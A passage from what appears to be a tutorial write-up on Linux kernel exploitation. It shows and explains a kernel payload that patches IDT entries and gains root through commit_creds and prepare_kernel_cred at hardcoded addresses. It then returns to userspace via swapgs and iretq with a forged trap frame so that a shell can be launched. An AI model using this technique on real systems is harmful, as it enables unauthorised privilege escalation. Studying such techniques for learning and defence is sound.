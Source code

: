 The macro would be called inside the payload to generate the code necessary
to fix the wasted entries of ``IDT`` (again, this is not space efficient for the payload
but it works)

```
void __attribute__((regparm(3))) payload() {
    gate_desc* idt_table = (void*)0xffffffff81dd7000;

    set_entry(idt_table,  0, 0x0, 0x0, 0x8166, 0x69f0);
    set_entry(idt_table,  1, 0x4, 0x0, 0x8165, 0xca80);
    set_entry(idt_table,  2, 0x3, 0x0, 0x8165, 0xce90);
    /* MORE STUFFS HERE */
    set_entry(idt_table, 17, 0x0, 0x0, 0x8166, 0x6b80);
```

what follows is the standard way to raise privileges from kernel space
with ``commit_creds()`` and ``prepare_kernel_cred()``

```
    commit_creds_fn commit_creds = (commit_creds_fn)0xffffffff81091630;
    prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)0xffffffff810918e0;
    commit_creds(prepare_kernel_cred((uint64_t)NULL));
```

The epilogue of the function needs a further explanation

```
	asm("swapgs;"
        "mov $tf, %rsp;"
        "iretq;");
}
```

For start ``swapgs`` is the standard way for the ``x86_64`` architecture
to switch **memory space** from kernelspace to userspace; to continue the **execution** in userspace
the kernel uses the ``iretq`` instruction:
it pops from the stack the registers ``rip``, ``cs``, the processor flags, the stack pointer
and finally the register ``ss``, and continue the execution with those values;
building a fake stack we can return to userspace!

To do that I'm using the following ``struct``

```C
struct trap_frame {
    uint64_t eip;    // instruction pointer
    uint64_t cs;     // code segment
    uint64_t eflags; // CPU flags
    uint64_t esp;    // stack pointer
    uint64_t ss;     // stack segment
}__attribute__ (( packed ));
```

and populating it with the function listed below
that has to be called before the triggering of the vulnerability:
``launch_shell()`` is simply the code in userspace we want to execute.
